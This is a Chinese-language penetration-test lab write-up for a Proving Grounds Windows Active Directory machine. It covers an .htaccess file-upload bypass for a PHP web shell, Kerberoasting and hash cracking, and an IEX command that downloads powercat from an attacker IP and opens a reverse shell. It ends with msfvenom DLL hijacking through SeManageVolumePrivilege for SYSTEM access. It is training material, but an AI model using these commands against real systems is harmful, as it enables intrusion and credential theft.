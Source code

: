 ```yaml
---
title: Proving Grounds Practive-Access-Windows_Active
date: 2025-05-28 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```


## nmap

扫描速率建议不要太快，国内网络不太好容易丢包扫不全端口

![image-20250528103600148](./Access-Windows-Active/image-20250528103600148.png)

## web

扫目录看看有没有其他信息，其中发现一个有用的uploads目录，应该是用于存储上传文件的

![image-20250528103640312](./Access-Windows-Active/image-20250528103640312.png)

在官网购买票据的时候可以上传文件，没有前端验证，只有后端验证，不允许上传php

![image-20250528103840980](./Access-Windows-Active/image-20250528103840980.png)

并且在这里可以看到中间件和使用的php的版本，所以确定使用的语言就是php，经过尝试应该是只识别php后缀。更改后缀名，截断处理，中间件漏洞都尝试过，可以上传但是无法解析

![image-20250528104108888](./Access-Windows-Active/image-20250528104108888.png)

但是可以上传`.htaccess`，可以使用`.htaccess`解析漏洞，将所有的gif文件解析为php文件，注意这里上传的时候需要将`Content-Type`的值改为`image/jpeg`

![](./Access-Windows-Active/image-20250528110804630.png)

然后上传包含php后门代码的gif文件

![image-20250528110831443](./Access-Windows-Active/image-20250528110831443.png)

通过uploads目录访问，就可以成功命令执行

![image-20250528110852043](./Access-Windows-Active/image-20250528110852043.png)

## get-shell

可以直接上传使用php语言写的反弹shell的后门，生成之后上传到靶机，直接访问，本地监听端口即可得到shell

![image-20250528122756886](./Access-Windows-Active/image-20250528122756886.png)

![image-20250528122848270](./Access-Windows-Active/image-20250528122848270.png)

## 提权

### 横向到svc_mssql用户

当前用户目录下没有local.txt，此时还存在另外一个账户`svc_mssql`，该用户应该是`mssql`数据库的服务账户

![image-20250528160759646](./Access-Windows-Active/image-20250528160759646.png)

先请求当前域下的SPN，需要通过[GetUserSPNs.ps1](./https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)脚本，上传到靶机之后导入

![image-20250528160938139](./Access-Windows-Active/image-20250528160938139.png)

得到了SPN就可以去请求服务票据，导出其哈希值，可以使用的工具有`Rubeus`

![image-20250528161325971](./Access-Windows-Active/image-20250528161325971.png)

也可以使用[Invoke-Kerberoast.ps1](./https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

```
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -outputFormat Hashcat
```

![image-20250528161418127](./Access-Windows-Active/image-20250528161418127.png)

需要对导出的hash值的内容格式做处理，将所有空格和换行替换为空

```
在vim中有替换功能
:%s/ //g
:%s/\n//g
```

然后使用`hashcat`，`john`等工具就可以破解

```
 hashcat -m  13100 --force -a 0 password.txt /usr/share/wordlists/rockyou.txt
```

最终破解的密码为`trustno1`

使用`crackmapexec`爆破`smb`和`winrm`，`svc_mssql`用户可以访问`smb`但是不能使用`winrm`远程连接，访问`smb`之后也没有发现有用的信息

![image-20250528155654862](./Access-Windows-Active/image-20250528155654862.png)

那就需要在已经得到shell的命令行中直接切换用户

需要使用的脚本：https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1

[powercat/powercat.ps1](./https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

用法：

```
PS> import-module ./Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"

命令执行反弹shell即可，使用powercat.ps1脚本

PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/powercat.ps1');powercat -c 192.168.45.163 -p 5555 -e cmd"
```

![image-20250528163250632](./Access-Windows-Active/image-20250528163250632.png)



### 提权到管理员权限

`SeManageVolumePrivilege`权限允许用户执行与卷相关的操作，例如碎片整理、挂载或卸载卷。这个权限通常仅限于高度特权账户，如管理员。

可以使用该exe文件来更改`C:/Windows`目录的权限

[Release SeManageVolumeExploit · CsEnox/SeManageVolumeExploit](./https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)

![image-20250528171244503](./Access-Windows-Active/image-20250528171244503.png)

修改之后当前用户对`C:/Windows`可写

![image-20250528170355886](./Access-Windows-Active/image-20250528170355886.png)

生成后门dll文件，此时我们可以将后门dll文件写入C盘目录下，劫持任何程序使用的dll，我们将使用systeminfo 的 tzres.dll，将其写入`C:\Windows\system32\wbem`，然后运行`systeminfo`就会调用恶意的dll，就可以达到反弹shell的目的

```
 msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.163 LPORT=4545 -f dll -o tzres.dll
```

![image-20250528171150612](./Access-Windows-Active/image-20250528171150612.png)

![image-20250528171154801](./Access-Windows-Active/image-20250528171154801.png)